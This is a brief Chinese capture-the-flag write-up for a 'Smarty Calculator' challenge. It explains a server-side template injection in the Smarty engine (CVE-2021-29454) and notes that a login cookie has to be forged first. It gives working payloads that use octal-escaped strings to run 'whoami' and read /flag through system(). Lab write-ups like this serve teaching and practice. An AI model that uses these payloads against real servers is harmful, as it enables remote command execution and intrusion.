 ## Smarty Calculator
`www.zip`拿到源码
smarty模板引擎，有ssti

![](attachments/Pasted%20image%2020240403092751.png)

先伪造一个login的cookie，存在即可

CVE-2021-29454
可以直接打
`eval:{math equation='("\163\171\163\164\145\155")("\167\150\157\141\155\151")'}`
![](attachments/Pasted%20image%2020240403093043.png)

`eval:{math equation='("\163\171\163\164\145\155")("\143\141\164\40\57\146\154\141\147")'}`

[SSTI-总结](../../Web/SSTI/SSTI-总结.md)

![](attachments/Pasted%20image%2020240403095546.png)

